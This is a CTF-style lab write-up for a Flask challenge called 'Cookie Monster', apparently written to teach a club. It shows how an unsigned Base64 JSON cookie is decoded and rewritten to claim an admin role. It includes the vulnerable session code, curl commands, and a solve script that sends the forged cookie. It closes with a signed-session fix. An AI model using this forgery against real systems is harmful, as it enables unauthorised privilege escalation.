

## Overview

Cookie Monster is a small Flask app that decides who you are by reading a cookie your browser sends. The cookie is Base64-encoded JSON with no signature, so you can rewrite it. The challenge covers reading cookies, decoding Base64, and sending a modified request with curl. This is an example write-up for the club site and is not from a real CTF.

## Challenge Description

> The cookie jar on this site is for admins only. Guests get crumbs.
>
> http://localhost:1337

Provided files (in the challenge's `files/` folder):

- `app.py`: the Flask server
- `Dockerfile`: runs the server the same way the event did

To run it yourself:

```bash
docker build -t cookie-monster .
docker run --rm -p 1337:5000 cookie-monster
```

## Recon

The home page says `Hello guest. Only admins can see the flag.` There is no login form, so the server has to be deciding "guest" from something in the request. Looking at the raw response with `curl -i` shows a cookie being set on the first visit:

```console
$ curl -i http://localhost:1337/
HTTP/1.1 200 OK
Server: Werkzeug/3.1.9 Python/3.14.7
Content-Type: text/html; charset=utf-8
Content-Length: 43
Set-Cookie: session=eyJ1c2VyIjogImd1ZXN0IiwgInJvbGUiOiAiZ3Vlc3QifQ==; Path=/

Hello guest. Only admins can see the flag.
```

The value ends in `==` and only uses letters, digits, `+`, and `/`. That is what Base64 padding looks like. The diagram below shows what the server does with the cookie after reading `app.py`.



## Walkthrough

### 1. Decode the cookie

```console
$ echo 'eyJ1c2VyIjogImd1ZXN0IiwgInJvbGUiOiAiZ3Vlc3QifQ==' | base64 -d
{"user": "guest", "role": "guest"}
```

The cookie is plain JSON with a `role` field.

### 2. Read how the server uses it

In `app.py`, `read_session()` decodes the cookie and passes it straight to `json.loads`. Nothing checks a signature or looks the session up on the server:

```python
def read_session():
    raw = request.cookies.get("session")
    if not raw:
        return dict(GUEST)
    try:
        return json.loads(base64.b64decode(raw))
    except ValueError:
        return dict(GUEST)
```

The route then compares `session.get("role")` to `"admin"`. Whatever the cookie says, the server believes.

### 3. Build an admin cookie

Change `guest` to `admin` in the `role` field and encode it again. `printf '%s'` avoids adding a trailing newline, which would change the Base64 output.

```console
$ printf '%s' '{"user": "guest", "role": "admin"}' | base64
eyJ1c2VyIjogImd1ZXN0IiwgInJvbGUiOiAiYWRtaW4ifQ==
```

### 4. Send the forged cookie

```console
$ curl -b 'session=eyJ1c2VyIjogImd1ZXN0IiwgInJvbGUiOiAiYWRtaW4ifQ==' http://localhost:1337/
Welcome back, admin. Here is your flag: bgsu{example_flag_not_real}
```

You can do the same thing in the browser by editing the cookie value in the developer tools (Storage tab in Firefox, Application tab in Chrome) and reloading the page.

## Solution

`solve.py` in the challenge files builds the cookie and makes the request:

```python
import base64
import json
import sys

import requests

url = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:1337/"

forged = base64.b64encode(json.dumps({"user": "guest", "role": "admin"}).encode()).decode()
print(f"forged cookie: {forged}")

resp = requests.get(url, cookies={"session": forged}, timeout=5)
print(resp.text.strip())
```

```console
$ python3 solve.py
forged cookie: eyJ1c2VyIjogImd1ZXN0IiwgInJvbGUiOiAiYWRtaW4ifQ==
Welcome back, admin. Here is your flag: bgsu{example_flag_not_real}
```

## Flag

```text
bgsu{example_flag_not_real}
```

## Takeaways

- Treat every cookie as user input. Base64 is an encoding, so anyone can decode and re-encode it.
- If a cookie has to carry data the server relies on, sign it. Flask's built-in `session` signs the cookie with `SECRET_KEY`, and a changed cookie fails verification and is thrown away.
- Better still, keep the role on the server and put only a random session ID in the cookie.

A fixed version of the route keeps the role in Flask's signed session:

```python
import os
from flask import Flask, session

app = Flask(__name__)
app.secret_key = os.environ["SECRET_KEY"]  # long random value, never committed
FLAG = os.environ.get("FLAG", "bgsu{example_flag_not_real}")

@app.route("/")
def index():
    if session.get("role") == "admin":
        return f"Here is your flag: {FLAG}"
    session.setdefault("role", "guest")
    return "Only admins can see the flag."
```

With this change, editing the cookie in the browser makes the signature check fail, and Flask starts a new empty session.

## References

- [MDN: Using HTTP cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Cookies)
- [Flask documentation: Sessions](https://flask.palletsprojects.com/en/stable/quickstart/#sessions)
- [OWASP: Testing for Cookies Attributes](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/02-Testing_for_Cookies_Attributes)
